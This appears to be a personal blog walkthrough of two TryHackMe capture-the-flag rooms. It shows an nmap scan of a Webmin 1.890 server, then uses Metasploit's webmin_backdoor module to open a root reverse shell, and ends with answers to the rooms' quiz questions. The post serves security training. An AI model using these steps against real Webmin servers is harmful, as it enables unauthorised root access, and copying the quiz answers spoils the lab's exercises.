 ```yaml
---
layout: post
title: Hello World
categories: hello
author: ThelastVvV
date: '2020-03-11 18:42:53 +0800'
tags:
  - test
  - hello
published: true
---
```


 Hallå gubbar , Today i will show you how easy this boxes are in a very simple explanation both [AttackerKB](https://tryhackme.com/room/attackerkb) &  [Source](https://tryhackme.com/room/source).
 
### 1 - Enumeration
### 2 - Exploitation
### 3-  Reverse shell
### 4-AttackerKB Tasks


### 1 - Enumerationnmap scan :

> nmap -T4 -A -v -Pn Box-ip

Results:



> PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
| 2048 b7:4c:d0:bd:e2:7b:1b:15:72:27:64:56:29:15:ea:23 (RSA)
| 256 b7:85:23:11:4f:44:fa:22:00:8e:40:77:5e:cf:28:7c (ECDSA)
|_ 256 a9:fe:4b:82:bf:89:34:59:36:5b:ec:da:c2:d3:95:ce (ED25519)
10000/tcp open http MiniServ 1.890 (Webmin httpd)


### 2 - Exploitation
Source and AttackerKB:

One of the attached files of vulnerability is metasploit module that will allow us reverse shell the box so let open Metasploit


[https://github.com/rapid7/metasploit-framework/pull/12219]()


using this command:




> msfconsole

then search "the exploit name or version"





then choose > unix/webapp/webmin_backdoor








> RHOSTS : Box-ip
RPORT: Box-port
LHOST: Your-ip
SSL : 1


### 3- Reverse shell


volia session opened we are root so let check the hints and hunt the flags

User Flag:




Root Flag:



### 4-AttackerKB Tasks:

Task 2 -Discovering the Lay of the Land :

From Nmap results we can find all our answers .....

Answers: 



#2-Webmin
#3-1.890
#4- from cert bellow figure it out

### Task 3 - learning to fly:
Just explore Attackerkb then we will be able to answer the following "important to copy directly from Attackerkb site 
Answers: 

#3 1.890 
#4 supply chain 
#5 aug172019 
#6 githubfileinthetitle



See you next time .....




